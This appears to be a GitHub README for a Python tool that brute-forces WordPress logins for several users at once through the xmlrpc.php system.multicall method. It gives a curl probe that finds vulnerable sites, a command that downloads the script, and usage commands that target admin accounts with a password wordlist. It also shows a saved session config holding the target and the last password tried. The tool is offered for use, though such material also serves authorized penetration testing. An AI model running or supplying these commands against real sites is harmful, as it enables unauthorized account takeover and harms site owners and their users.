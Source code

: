 # WP Multi-User Bruteforce
Python 3 script for bruteforcing multiple Wordpress users using only one request per password.

<img src="xmlrpc.png" alt="basic usage" width="600"/>


## How does it work?
The [Hacktrick's Wordpress Pentesting Guide](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress#xml-rpc) mentions that, if xmlrpc.php is enabled, Bruteforcing and DoS attacks can be used by abusing the system functionalities, including trying multiple users with **only one request**, using the `system.multicall` function (see [here](https://1517081779-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FILyTlmNzv1D9YhHQAJo2%2Fimage.png?alt=media&token=5aa88cc4-baa0-4e54-87c1-2cc31203199d)).

## Testing the vulnerability

Run this command, replacing `wordpress-blog.com` with your website:
```
curl -d "<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>" -X POST http://wordpress-blog.com/xmlrpc.php
``` 

See if the response is an XML with all functionalities available, like: 
```
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><string>system.multicall</string></value>
  <value><string>system.listMethods</string></value>
  <value><string>system.getCapabilities</string></value>
  <value><string>demo.addTwoNumbers</string></value>
  [...]
```
Then, it's probably **vulnerable**.

## Installation

```
pip install requests
curl https://raw.githubusercontent.com/entr0pie/xmlrpc-multi-request/main/xmlrpc.py | tee xmlrpc.py 
```

## Usage

### Basic Usage:
```
python3 xmlrpc.py --target=https://your-blog.com --users admin,editor,reader
```

### Setting an wordlist:
```
python3 xmlrpc.py --target=https://your-blog.com --users admin,editor,reader --wordlist=my_wordlist.txt
```

### Start the bruteforce with an specific word inside the wordlist:
```
python3 xmlrpc.py --target=https://your-blog.com --users admin,editor,reader --wordlist=my_wordlist.txt --word=super_secure_password
```

### Using the config.json file:
By default, xmlrpc.py saves in the `config.json` the last session:

```
{
    "host":"http://your-blog.com/xmlrpc.php",
    "users":"['admin', 'editor', 'reader']",
    "WORDLIST":"/usr/share/wordlists/rockyou.txt",
    "WORD":"mcfly",
    "debug":"False"
}
```

You can replay that session running:

```
python3 xmlrpc.py --config config.json
``` 

## License
This project is under [GNU GPLv3](LICENSE).

